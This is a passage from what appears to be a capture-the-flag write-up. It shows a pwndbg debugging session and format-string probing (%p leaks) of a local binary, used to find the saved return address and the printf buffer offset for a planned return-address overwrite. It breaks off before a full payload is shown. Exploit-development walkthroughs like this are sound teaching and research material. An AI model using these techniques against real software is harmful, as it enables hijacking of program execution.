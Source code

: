 ```asm wrap=false showLineNumbers=false
   0x5555555551e2 <main+89>       add    dword ptr [rbp - 0x214], 1        [0x7fffffffd42c] <= 33 (0x20 + 0x1)
   0x5555555551e9 <main+96>       cmp    dword ptr [rbp - 0x214], 0xd3     0x21 - 0xd3     EFLAGS => 0x297 [ CF PF AF zf SF IF df of ]
   0x5555555551f3 <main+106>    ✔ jle    main+42                     <main+42>
    ↓
   0x5555555551b3 <main+42>       mov    rdx, qword ptr [rip + 0x2e56]     RDX, [stdin@@GLIBC_2.2.5] => 0x7ffff7bc18c0 (_IO_2_1_stdin_) ◂— 0xfbad2288
   0x5555555551ba <main+49>       lea    rax, [rbp - 0x210]                RAX => 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
   0x5555555551c1 <main+56>       mov    esi, 0x200                        ESI => 0x200
   0x5555555551c6 <main+61>       mov    rdi, rax                          RDI => 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
   0x5555555551c9 <main+64>       call   fgets@plt                   <fgets@plt>
 
   0x5555555551ce <main+69>       lea    rax, [rbp - 0x210]
   0x5555555551d5 <main+76>       mov    rdi, rax
────────────────────────────────────────────────────────────────────────────────────[ STACK ]─────────────────────────────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd418 —▸ 0x5555555551e2 (main+89) ◂— add dword ptr [rbp - 0x214], 1
01:0008│-220 0x7fffffffd420 —▸ 0x7fffffffd630 —▸ 0x7fffffffd720 ◂— 1
02:0010│-218 0x7fffffffd428 ◂— 0x20ffffd498
03:0018│-210 0x7fffffffd430 ◂— 0xa6473 /* 'sd\n' */
04:0020│-208 0x7fffffffd438 ◂— 0x1958ac0
05:0028│-200 0x7fffffffd440 ◂— 0x7fff00000026 /* '&' */
06:0030│-1f8 0x7fffffffd448 —▸ 0x7ffff7ffd340 ◂— add byte ptr [rdi + 0x5f], bl
07:0038│-1f0 0x7fffffffd450 —▸ 0x7fffffffd570 —▸ 0x7ffff7ffd2f8 ◂— add byte ptr [rax], al /* 'J' */
──────────────────────────────────────────────────────────────────────────────────[ BACKTRACE ]───────────────────────────────────────────────────────────────────────────────────
 ► 0   0x7ffff78565b0 printf+160
   1   0x5555555551e2 main+89
   2   0x7ffff78203f1 __libc_start_main+241
   3   0x5555555550ce _start+46
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> search 0x5555555551e2
Searching for byte: b'0x5555555551e2'
pwndbg> search -t qword  0x5555555551e2
Searching for an 8-byte integer: b'\xe2QUUUU\x00\x00'
[stack]         0x7fffffffd418 0x5555555551e2 (main+89)

pwndbg> p/x 0x7fffffffd430-0x7fffffffd418
$1 = 0x18
```
Here the second leak from `%2$p` is 24 bytes away from our target address.
If we can overwrite that return address , then we can control the execution of program.

```bash
 ./main_patched                                                                                                           
AAAAAAAAAAAAAAA%p%p%p%p%p%p%p%p%p%p%p%p%p%p
AAAAAAAAAAAAAAA0x790b8d9c37700x7fff1cc25bc00xfbad22880x5898ec3f503c0x790b8ddf77000x7fff1cc25dc00x201cc25c280x41414141414141410x25414141414141410x25702570257025700x25702570257025700x25702570257025700x79000a7025700x7fff1cc25c24
```
From this, I found that at from offset 8 , printf buffer starts , which we can use to overwrite the return address.
